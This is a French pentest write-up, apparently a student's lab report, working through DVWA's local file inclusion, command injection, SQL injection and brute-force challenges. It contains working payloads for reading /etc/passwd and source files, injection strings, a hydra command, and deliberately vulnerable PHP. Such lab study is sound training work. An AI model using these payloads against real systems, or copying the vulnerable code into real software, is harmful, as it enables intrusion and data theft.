



# Pentest en utilisant DVWA  

>author : Sacha Besser  
  
# 1. Local File Inclusion
Une Local File Inclusion (LFI) est une vulnérabilité web qui permet à un attaquant de forcer un site à inclure et afficher des fichiers locaux présents sur le serveur.  

Cette faille se produit lorsque le site web inclut un fichier sans bien vérifier ou filtrer ce que l’utilisateur peut choisir.  

Par exemple, un site utilise une URL comme :
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=file.php
```
Ici, le fichier file.php est inclus par la variable page.  

Si l’entrée utilisateur n'est pas sécurisée, un attaquant pourrait manipuler l'URL pour inclure d'autres fichiers locaux :
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```
## 1.1 Premier niveau – low
Nous avons une page toute simple avec trois fichiers` http://34.163.97.167/DVWA/vulnerabilities/fi/?page=include.php `  

  

Nous allons donc simplement essayer de modifier le parametre pour inclure une autre page par exemple `/etc/passwd`  
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```
  

On voit que la faille est bien présente puisqu’elle permet d’afficher n’importe quel fichier sur le serveur.  
On peut donc en quelque sorte en déduire le code php qui est présent sur le serveur.    
```
<?php  
$page = $_GET['page'];
include($page); ?>
```
Cela serait probablement quelque chose comme affiche ci-dessus. C’est-à-dire un simple paramètre `GET` sans aucune structure de contrôle.

## 1.2 Deuxieme niveau - medium

Pour cette deuxieme partie, nous effectuons quelque test et nous pouvons remarquer que `../` est filtre.  
Par Exemple :  
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=../etc/passwd
```
Le resultat ci dessous montre que les `..` ont ete filtre, ainsi le serveur n'a pas affiche le fichier que l'on voulait.
  

C'est donc assez facile ici de contourner le filtre, il suffit juste de ne pas utiliser `..`, par exemple nous pouvons acceder a la racine simplement en utilisant `/`.

Ainsi en utilisant la meme commande, on arrive a la solution :  
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```


On peux donc en deduire ce que le serveur a comme code :  
```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```
Pour se faire nous allons voir la configuration de `dvwa` et on remarque que notre hypthese etait bonne, les `../` sont bien filtre mais aussi les `http://` et `https://` qui sont retires et remplaces par une chaine vide.
## 1.3 Troisieme niveau - high
Pour la troisieme partie on va reessayer d'executer la meme commande pour voir comment le serveur reagis
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```
Cette fois ci le serveur ne nous affiche pas le fichier voulus, mais la phrase `ERROR: File not found!`

Il doit donc y avoir encore plus de filtre ou une strucuture de controle qui a ete ajoute

Ici, n'ayant pas vraiment d'idee pour trouver la solution nous sommes alles directement voir le code php pour comprendre ce que le serveur filtrait ou non.  

```
<?php

$file = $_GET['page'];

if( !fmatch( "file", $file ) && $file != "include.php" ) {
  // This isn't the page we want!
  echo "ERROR: File not found!";
  exit;
}

?>
```
On peux voir que le serveur verifie si le fichier que l'on recupere commence par `"file"`, ceci est en principe une bonne idee puisque les fichiers etant nomme `file1.php`, `file2.php` ..., le script est cense filtre tous les autres. 

Or en ayant compris cela, on en deduis que si on commence chaque "injection" par `file`, on contournera le filtre.  

Par exemple essayons ceci :  
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=file/../../../../../../../../../etc/passwd
```

Et encore une fois, nous arrivons a afficher le resultat de `/etc/passwd`.  


## 1.4 Niveau Impossible

```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
$configFileNames = [
    'include.php',
    'file1.php',
    'file2.php',
    'file3.php',
];

if( !in_array($file, $configFileNames) ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```
Analysons rapidement ce code.  
Le fichier est recupere dans la variable `file` puis on voit qu'il est compare a une liste contenant tous les fichiers. C'est clairement la meilleure methode puisque ici, soit le nom du fichier est egale a celui qui est dans la liste et le fichier est affiche ou il ne l'est pas et alors le message `ERROR : File not found` est affiche.

# 2. Command Injection

La Command Injection est une vulnérabilité de sécurité où un attaquant peut injecter et exécuter des commandes système dans une application, souvent via une interface utilisateur. Cette vulnérabilité permet à un attaquant d'exécuter des commandes directement sur le serveur ou la machine hôte qui exécute l'application.

Lorsqu'une application prend des données en entrée de l'utilisateur (par exemple via un formulaire web) et les utilise sans validation ou filtre, un attaquant peut insérer une commande système malveillante dans l'entrée. Si l'application passe cette entrée directement à un interpréteur de commande (comme le shell Linux), l'attaquant peut exécuter des commandes non autorisées sur le serveur.

## 2.1 Premier niveau - low

On arrive sur une page avec un service de ping  

  

Puisque c'est du php, on va essayer une simple methode qui consite à utiliser le caractètre `;` pour "sortir" du code php qui permet de ping, puis nous allons saisir la commande que l'on veux 

```
; cat ../exec/source/low.php
```
Ici par exemple nous allons afficher le code source de la page, ce qui nous permettra de visualiser en même temps comment fonctionne le serveur.  

  

Puisque c'est du code php, il faut regarder avec `ctrl + u` pour voir le script php.

```
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$target = $_REQUEST[ 'ip' ];

	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
	$html .= "<pre>{$cmd}
```
On tombe sur ceci et on remarque que il n'y a aucun contrôle sur l'input de l'utilisateur. De plus on comprend mieux comment les commandes systemes sont executés. C'est a l'aide de la fonction `shell_exec()` de php.

## 2.2 Deuxieme niveau - medium

Pour ce deuxieme niveau, en essayant avec `;` l'injection ne fonctionne pas. Nous avons donc cherché differents caractères propres à Linux qui aurait peut être échappé au filtre que le dévellopeur à mis en place car on se doute ici que certains caractères ont été blacklisté.  

Après une simple recherche sur Internet, on tombe sur un github `https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md` qui nous fournit quelques indications.

```
; (Semicolon): Allows you to execute multiple commands sequentially.
&& (AND): Execute the second command only if the first command succeeds (returns a zero exit status).
|| (OR): Execute the second command only if the first command fails (returns a non-zero exit status).
& (Background): Execute the command in the background, allowing the user to continue using the shell.
| (Pipe): Takes the output of the first command and uses it as the input for the second command.
```

En essayant ces caractères, on en trouve un qui n'est pas blacklisté `||`.  
Cela nos permet d'éxecuter cette commande et par la même occasion lire le code php.

```
|| cat ../exec/source/medium.php
```
```
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$target = $_REQUEST[ 'ip' ];

	// Set blacklist
	$substitutions = array(
		'&&' => '',
		';'  => '',
	);

	// Remove any of the characters in the array (blacklist).
	$target = str_replace( array_keys( $substitutions ), $substitutions, $target );

	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
	$html .= 
```

Notre théorie initial était correcte. On à effectivement une blacklist qui inclue le `;` et `&&` mais pas le `||`.

## 2.3 Troisième niveau - hard

Pour ce troisieme challenge, on part du principe que l'administrateur a blacklist tous les caractères que l'on a cité avant. On doit donc trouver une autre manière.

Cependant, en essayant plusieurs commande dans l'éventualité ou notre théorie était fausse on tombe sur cette commande qui elle fonctionne
```
|cat ../exec/source/high.php
```
Le script est bien exécuté 
  

On peux maintenant essayer de comprendre pourquoi :).  
En fait la raison est probablement un oublie ou une faute de frappe puisqu'on voit que le symbole `|` n'est pas blacklisté, c'est le symbole `| ` qui l'est. Cela nous permet donc d'éxecuter notre code.  

## 2.4 Niveau impossible

Voici le code php du niveau impossible :  
```
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
        // Check Anti-CSRF token
        checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

        // Get input
        $target = $_REQUEST[ 'ip' ];
        $target = stripslashes( $target );

        // Split the IP into 4 octects
        $octet = explode( ".", $target );

        // Check IF each octet is an integer
        if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
                // If all 4 octets are int's put the IP back together.
                $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

                // Determine OS and execute the ping command.
                if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
                        // Windows
                        $cmd = shell_exec( 'ping  ' . $target );
                }
                else {
                        // *nix
                        $cmd = shell_exec( 'ping  -c 4 ' . $target );
                }

                // Feedback for the end user
                $html .= "<pre>{$cmd}</pre>";
        }
        else {
                // Ops. Let the user name theres a mistake
                $html .= '<pre>ERROR: You have entered an invalid IP.</pre>';
        }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
Essayons de comprendre:  
Tout d'abord l'input de l'utilisateur est récupéré via `$_REQUEST['ip']` puis la fonction `stripslashes()` lui est appliqué permettant de retirer dans un premier temps les caractères spéciaux  

Puis l'adresse IP est vérifiée a l'aide de ce bloc de code
```
$octet = explode( ".", $target );
if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) )
```
Ce dernier va diviser l'IP en 4 parties grâce au séparateur `.` puis chaque octet est validé avec la fonction `is_numeric()` permettant de vérifier si il s'agit bien de chiffres. Finalement le script vérifie aussi la taille avec `size($octet) == 4` pour confirmer que l'adresse comporte exactement 4 partie.

# 3. SQL Injection

Une injection SQL (SQL Injection) est une faille de sécurité exploitée par un attaquant pour exécuter des commandes SQL malveillantes sur une base de données. Elle se produit lorsque des entrées utilisateur ne sont pas correctement validées ou filtrées avant d’être intégrées à une requête SQL. Cela peut permettre à un attaquant de manipuler les requêtes SQL de l'application, exposant ainsi des données sensibles ou compromettant le système

Imaginons un bloc de code vulnérable tout simple :  
```
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password';";
$result = mysqli_query($conn, $query);
```
Le script ci-dessus va utiliser l'input de l'utilisateur et va le concaténer avec le reste de la commande SQL. Cependant il n'y a aucun filtre.  

Ainsi prenons un exemple d'attaque où l'attaquant entre comme nom d'utilisateur `admin' --`  
La requête devient alors :
```
SELECT * FROM users WHERE username = 'admin' -- ' AND password = '';
```
La partie `-- ' AND password = '';` est commenté et la commande restante n'est donc plus que `SELECT * FROM users WHERE username = 'admin'`. Cela accordera donc l'accès à l'utilisateur.

## 3.1 Premier niveau - low

On a une page avec la possibilié d'entrer un id d'utilisateur
  
Cela nous renvoie l'utilisateur sans le mot de passe.  

On va commencer par essayer une simple injection 
```
admin' OR '1'='1
```
C'est quasiment le même exemple que cité auparavant sauf que l'on rajoute une condition `OR '1'='1` qui est bien sur toujours vrai. Ainsi on va tout afficher puisque la condition est toujours vrai.

  

# 4. Brute Force

Inutile d'expliquer le bruteforce, mais nous allons quand même le faire :).
Le bruteforce  est une méthode d'attaque utilisée pour deviner un mot de passe, une clé de chiffrement ou toute autre information sensible en essayant systématiquement toutes les combinaisons possibles jusqu'à trouver la bonne. C'est une méthode simple mais parfois efficace, surtout si les mots de passe ou clés sont faibles ou mal sécurisés.

Il y a plusieurs outils disponible pour bruteforce : 
| **Outil**         | **Description**                                                                 | **Cible principale**                   | **Site officiel/GitHub**                            |
|--------------------|---------------------------------------------------------------------------------|-----------------------------------------|-----------------------------------------------------|
| **Hydra**          | Outil rapide pour tester des mots de passe sur divers services réseau.         | SSH, FTP, HTTP, SMTP, etc.             | [GitHub](https://github.com/vanhauser-thc/thc-hydra)|
| **Medusa**         | Outil de bruteforce modulaire et rapide pour les services réseau.              | SSH, FTP, Telnet, MySQL, etc.          | [GitHub](https://github.com/jmk-foofus/medusa)      |
| **John the Ripper**| Craqueur de mots de passe hachés puissant et configurable.                     | Hachages de mots de passe              | [Site officiel](https://www.openwall.com/john/)     |
| **Hashcat**        | Outil de déchiffrement avancé pour hachages, avec support GPU.                 | Hachages de mots de passe              | [GitHub](https://github.com/hashcat/hashcat)        |
| **Burp Suite**     | Suite d'outils pour les tests de sécurité, incluant un module de bruteforce.   | Formulaires web, sessions HTTP         | [Site officiel](https://portswigger.net/burp)       |
| **Wfuzz**          | Outil flexible pour le bruteforce des paramètres web.                         | URL, cookies, paramètres web           | [GitHub](https://github.com/xmendez/wfuzz)          |
| **Patator**        | Outil modulaire pour tester les mots de passe et autres services.              | SSH, HTTP, DNS, MySQL, etc.            | [GitHub](https://github.com/lanjelot/patator)       |
| **Ncrack**         | Outil rapide pour tester la sécurité des authentifications réseau.             | SSH, RDP, FTP, Telnet, etc.            | [GitHub](https://github.com/nmap/ncrack)           |
| **Aircrack-ng**    | Outil pour le craquage des clés de réseaux Wi-Fi.                              | Clés WEP/WPA sur Wi-Fi                 | [Site officiel](https://www.aircrack-ng.org/)       |
| **CeWL**           | Génère des listes de mots (wordlists) basées sur les contenus d'un site.       | Création de dictionnaires personnalisés | [GitHub](https://github.com/digininja/CeWL)         |

## 4.1 Premier niveau - low

On arrive sur une simple page de login


On remarque en essayant des identifiants que ces derniers sont envoyés via la méthode `GET` car on a cette url.
```
http://dvwa.lan/DVWA/vulnerabilities/brute/?username=admin&password=admin&Login=Login#
```

On va utiliser `hydra` pour essayer de bruteforce.  
La commande n'etant pas très lisible en screenshot, la voici directement :

```
hydra -l admin -P /opt/wordlists/wordlists/passwords/most_used_passwords.txt dvwa.lan http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=po9is02drb8ohe96pq1j61flmu"
```